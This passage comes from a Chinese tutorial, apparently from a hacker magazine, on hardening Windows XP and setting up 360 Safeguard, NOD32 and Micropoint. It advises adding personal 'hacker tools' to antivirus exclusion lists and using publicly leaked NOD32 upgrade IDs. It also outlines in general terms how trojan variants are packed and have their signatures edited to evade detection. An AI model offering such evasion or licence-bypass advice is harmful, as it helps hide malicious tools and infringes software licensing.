- Themes：如果不使用个性的 XP 主题，就禁用。
- Windows Time：系统校对时间纯属鸡肋，禁用掉。
- Wireless Zero Configuration：如果没有无线网卡，就禁用。
- Workstation：如果不需要局域网共享的话，就禁用。

至于其它的一些服务，大家可以参照服务的描述信息决定是否保留，努力将系统服务最简优化。一方面在性能上将得到提升，另一方面在安全性上也能得到不同程度的提升。

打开“控制面板”中“管理工具”下的“本地安全策略”，选择“本地策略”下的“用户权利指派”（图6），在这里可以设置各个用户在系统中的各项权利，比如可以设置只有管理员才可以更改系统时间，拒绝 GUEST 用户从本地登录等等一些措施，以使系统变得更安全、更强劲。再切换到“安全选项”，在这里可以设置系统的一些……安全选项（图7）：一般情况下，每个 Windows 系统都会存在一个名为 Administrator 的内置管理员账号，并且这个账号是无法删除的。如果恶意用户进行暴力破解的话就不安全了。使用“重命名管理员账户”功能就可以更改这个内置账户的用户名，这样可以使恶意用户的暴力破解成为泡影，更增强了系统的安全性。

在“开始”→“运行”栏输入“gpedit.msc”就可以启动“组策略”（图8），这里面有丰富的系统设置，包括系统性能设置、用户个性化设置、系统安全性设置等。

在一个安全的操作系统中，网络防火墙是不可或缺的。XP 系统也自带了防火墙，打开“控制面板”下的“防火墙”，选择“启用”后就可以开启 XP 系统自带的网络防火墙了（图9）。它可以阻止所有未经允许的连接，当然有时也需要开放一些端口，或者规定一些程序可以随便进出防火墙，那么就需要转到“例外”选项来设置了（图10）。可以通过“添加程序”和“添加端口”来添加不需要防火墙阻挡的例外选项；如果不想让某个程序或者功能进出防火墙的话，只需要将其前面的小勾取消掉即可。我们还可以更改连入 IP 地址的范围：使网络上任意主机连接、使子网上任意主机连接、使设置的自定义列表中的主机连接。当一个程序提示开放端口进行网络连接的时候，XP 防火墙会自动跳出来询问你是否允许其执行该操作。



图7


图8


图9

如果各位还不满意的话，还可以安装其它防火墙，比如天网防火墙、黑冰防火墙等。

有一点需要注意：如果是因为中毒、木马而重新安装操作系统的话，在重新安装完操作系统后，不要清旧系统分区（一般为 C 盘）外的其它分区，以防止再次感染病毒、木马等。此时需要先做好系统的安全设置，再安装好杀毒软件、安全卫士等进行全盘扫描，将病毒木马给揪出来。如果微软发布新的漏洞补丁，还会提醒你进行安装。


图10

#### 二、360 + NOD32 将流氓病毒一扫光

现在网络上的流氓软件实在是太多了，稍不留神就会中招。流氓软件虽然不会对系统造成太大的破坏，但也非常烦人。360 安全卫士就这样应运而生了，它是一款专门用于对付流氓软件的克星，目前基本上已经成了装机必备的一款工具。打开 IE 到 360 安全卫士的老家（http://www.360.cn/），将最新版的 360 安全卫士下载回来后双击安装，一路点击 NEXT 就可以安装成功了。注意在安装过程中需要选择是否“开启主要实时保护”（图11）。







切换到“高级”下的“修复 IE”，就可以对 IE 进行一些常规性的修复操作，比如恢复 HOSTS 文件为默认状态、恢复 IE 首页、恢复 IE 搜索页、恢复被禁用的 IE 选项等功能。切换到“启动项状态”，可以查看当前系统在启动的时候都有哪些程序跟着启动（图15），有些木马也会在这里现出原形。



启动 360 安全卫士后，它会自动显示当前系统的基本状态（图12），初次使用需要进行系统安全体检。切换到“查杀流行木马”就可以扫描并查杀当前的木马病毒等；切换到“清理恶评插件”就可以清理当前系统中所存在的流氓软件（图13）。点击“开始扫描”后就会查找出系统中存在的插件，并将根据用户对该插件的评价进行分类，分为恶评插件、其它插件、信任插件。可以将自己常用的 360 实时保护模块或者迅雷下载组件等添加为信任插件。切换到“管理应用软件”可以查看当前系统中所有安装的软件，并且已经分类过了，而且还给出了一些装机必备的软件、流行软件、流行游戏等信息。再切换到“修复系统漏洞”就可以查看当前系统都存在哪些漏洞（图14），另外 360 安全卫士还会提供各项漏洞的修复方法。


切换到“系统连接状态”可以查看当前系统正在联网的网络连接，可以查看哪个进程正在通过本机的哪个 IP 地址的哪个端口，和哪个 IP 地址的远程主机的哪个端口进行连接。再切换到“保护”下的“开启实时保护”，可以看到当前 360 安全卫士所启用的保护功能（图16），大家可以根据自己的网络情况进行选择。

杀毒软件很早就成为了装机必备的软件，因为网络上的病毒实在是太多太多，而且每天还都以极快的速度增长着。一个病毒木马就会让你的爱机死得很惨，不管是程序、系统还是大家的宝贵数据，都是致命的损害。但是有些朋友总是认为安装好杀毒软件就可以高枕无忧了，其实不然，还需要实时更新杀毒软件的病毒库才行，否则你的杀毒软件就是一个彻底的摆设。这是由反病毒技术的流程来决定的（图17），只有更新病毒库才能保持杀毒软件的强悍，当遇到已知的病毒时，杀毒软件就会将其擒获。


> **小知识：一般的反病毒技术流程**
>
> 当用户发现计算机出现异常现象，怀疑可能被病毒感染时，可通过邮件等途径发送可疑样本给反病毒公司；病毒分析工程师进行人工分析，提取病毒特征码，制作升级程序并发布，用户升级杀毒软件后才能对该病毒进行查杀。

在最近几年的杀毒软件评比中，NOD32 杀毒软件一直是遥遥领先，其以占用系统资源小、运行高效而著称，适用于 Windows NT/2000/XP/2003/Vista/x64 操作系统。

NOD32 的安装非常简单，记住在安装的时候需要选择“高级”或者“专家”模式（图18），否则网络监控模块将无法安装。安装完成后需要重新启动系统才能正常加载 NOD32。



NOD32 由多个系统组件模块构成，每个模块完成不同的功能：

- AMON——文件系统监视器
- DMON——微软 Office 文档监视器
- EMON——MS Outlook 电子邮件 MAPI 监视器
- IMON——POP3/HTTP 网络监视器
- NOD32——手动扫描仪


启动 NOD32 后我们会看到其简洁的使用界面（图19），点击每个系统组件模块就可以看到各项功能的实时监控状态和控制选项。若误报，可进入“AMON”文件系统监控器，点击“设定”按钮进入 AMON 设置界面，切换到“排除”选项（图20），将自己心爱的黑客工具所在文件夹或文件添加进来，以后 NOD32 就再也不会乱来了。




图21

NOD32 升级病毒库是需要升级 ID 的，大家可以使用网上公布的升级 ID 或者升级服务器进行更新病毒库。升级 ID 可以从“http://www.nod321.com”网站上获取（图21）。进入 NOD32 的更新模块（图22），可以设置升级服务器和升级 ID 等信息。NOD32 默认每一个小时就会自动检测是否需要更新病毒库。



图22

NOD32 的好用之处在于，安装配置完毕后几乎不需要再次设置，让人感觉到非常安心、省心，而且我在使用过程中也发现它是我使用过的杀毒软件中占用系统资源最节省的。

#### 三、微点主动防御阻断未知病毒

据德国 AV 测试实验室介绍，2007 年出现了约 550 万个通过互联网传播的恶意程序，反病毒公司每天需要分析 1.5 万至 2 万个新病毒，这使得反病毒公司的日均工作量增加至 2006 年的 4 倍，更是 2005 年的 15 倍。另外，目前的黑客技术正逐渐被普及化，免杀技术已经不再像以前那样神秘，在每期的《黑客 X 档案》杂志中就会介绍很多实用的免杀知识，相信大家也制作出不少免杀版本了。不需要重新编写病毒程序，只需要经过简单的加壳、加花指令、定位并修改病毒特征码等技术方式的处理，在很短时间内就可以大规模批量制作出可躲避传统杀毒软件查杀的木马变种。

传统的杀毒软件根据它们的一般工作流程也显示出了一个致命缺陷：那就是在用户升级之前，用户计算机上的杀毒软件是无法阻止新型病毒的感染和破坏的。虽然反病毒公司的技术人员可以通过分析程序行为而准确判定一个程序是否为病毒，那么能否将这种分析判断过程自动化、程序化呢？微点主动防御技术正是根据这种思路设计而来（图23）。通过对病毒行为规律分析、归纳、总结，并结合反病毒专家判定病毒的经验，提炼成病毒识别规则知识库，模拟专家发现新病毒的机理，通过分布在操作系统中的众多操作，动态监视所运行程序调用各种应用程序编程接口（API）的动作，将程序的一系列动作通过逻辑关系分析组成有意义的行为，再综合应用病毒识别规则知识库识别，实现自动判定病毒。微点适用的操作系统为 Windows 2000/XP/2003/Vista/2008。

从微点的老家（http://www.micropoint.com.cn/）下载一个试用版本，试用期为一个月，按照程序提示安装完成。注意在进入“客户信息”的窗口时微点会自动分配一个序列号（图24），这个序列号是试用版本的序列号；如果你购买了微点正式版的话就填入获得的正版序列号。接着进入“产品注册”的窗口，在此处需要进行简单的联网注册，否则试用期内微点是不能升级的（图25）。


图23



图24



图25

重新启动后就可以自动启动微点了，默认会打开当前的“进程综合信息”功能（图26）。为了方便使用，微点提供了重要功能的快捷按钮：查看——查看进程综合信息；诊断——诊断当前系统中的可疑程序；扫描——扫描并报告系统当前存在的已知漏洞；设置——迅速打开程序行为实时监控策略设置窗口；升级——更新微点主动防御软件程序和已知病毒特征库。微点的智能窗口实时显示计算机系统进程数量以及计算机与外界网络的通信状态，并通过 IP 地址地理信息库可以定位到本计算机与互联网中通信的远程计算机的地理位置。

有些黑客工具在访问网络或者进行其它操作时，也会被微点误认为病毒程序。点击主界面中的“设置”按钮进入“程序行为实时监控策略设置”界面，点击“可信程序设置”，将需要排除的程序添加进去，就可以让微点不再检查它们了（图27）。当有程序违反了检测病毒的主动防御模块规则时，微点就会立即报告，询问你如何处理；当有程序想访问外部网络的时候也会立即报告询问是否放行。根据试用情况来看，将微点搭配杀毒软件一起来使用效果非常不错，安心又安全。

